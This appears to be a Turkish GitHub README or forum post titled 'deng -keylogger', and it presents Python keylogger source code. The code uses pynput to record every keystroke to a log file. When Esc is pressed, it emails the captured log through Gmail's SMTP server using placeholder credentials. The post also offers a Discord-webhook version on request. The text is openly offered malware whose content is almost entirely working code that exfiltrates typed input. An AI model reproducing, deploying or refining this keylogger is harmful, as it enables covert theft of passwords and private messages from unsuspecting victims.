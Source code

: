 # deng -keylogger
#deng with tht.
## repos with marshall,regned,yu99
discord webhook versiyonu icin iletisim #urldoomer





source linked below 

.
.
.
...

//

a42 Kod İle Python'da Keylogger Yapımı;

Kod:
import pynput
import smtplib


from pynput.keyboard import Key,Listener

count = 0
keys = []

def on_press(key):
global count,keys
count += 1
print("{0} basıldı".format(key))
keys.append(key)

if count >= 10:
count = 0
write_file(keys)
keys = []

def write_file(keys):
with open("log.txt" , "a" , encoding="utf-8") as file:
for key in keys:

k = str(key).replace("'", "")
if k.find("space") > 0:
file.write("\n")
elif k.find("Key") == -1:
file.write(k)


def on_release(key):
if key == Key.esc:
from email.mime.text import MIMEText
with open('log.txt') as fp:

msg = MIMEText(fp.read())


msg['Subject'] = 'Log Kayıtları -> {}'.format("log.txt")
msg['From'] = "gonderilecek_mail_adresi"
msg['To'] = "gonderilecek_mail_adresi"


s = smtplib.SMTP("smtp.gmail.com",587)
s.ehlo()
s.starttls()
s.login("gonderecek_mail_adresi","mailin_sifresi")
s.send_message(msg)
s.quit()


with Listener(on_press = on_press, on_release = on_release) as listener:
listener.join()
